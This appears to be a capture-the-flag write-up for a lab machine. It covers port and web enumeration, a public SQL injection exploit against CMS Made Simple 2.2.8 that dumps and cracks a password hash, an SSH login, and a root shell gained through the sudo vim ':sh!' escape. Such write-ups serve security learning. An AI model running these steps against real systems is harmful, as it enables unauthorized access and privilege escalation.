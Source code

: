 ```bash
export IP=10.10.246.121
```

# Nmap

Open ports:

```
21 ftp
80 http
2222 ssh
```

# Nikto

```
+ "robots.txt" contains 2 entries which should be manually viewed.
```

Robots.txt: ```Disallow: /openemr-5_0_1_3``` (404)

# Gobuster

Found files:

```
/index.html (Status: 200)
/robots.txt (Status: 200)
/simple (Status: 301)
```

/simple is made by "CMS Made Simple" v.2.2.8, which has [SQL vulnerability](https://www.cvedetails.com/vulnerability-list/vendor_id-3206/product_id-5627/version_id-270038/Cmsmadesimple-Cms-Made-Simple-2.2.8.html)

Using pythno2 cms exploit:

```bash
[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
[+] Password cracked: secret
```

# SSH

```bash
ssh mitch@$IP -p 2222
```

# VIM

```bash
sudo -l
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
```

Using VIM:
```bash
sudo vim test
```
Then

```bash
:sh!
```

```bash
# id
uid=0(root) gid=0(root) groups=0(root)
```
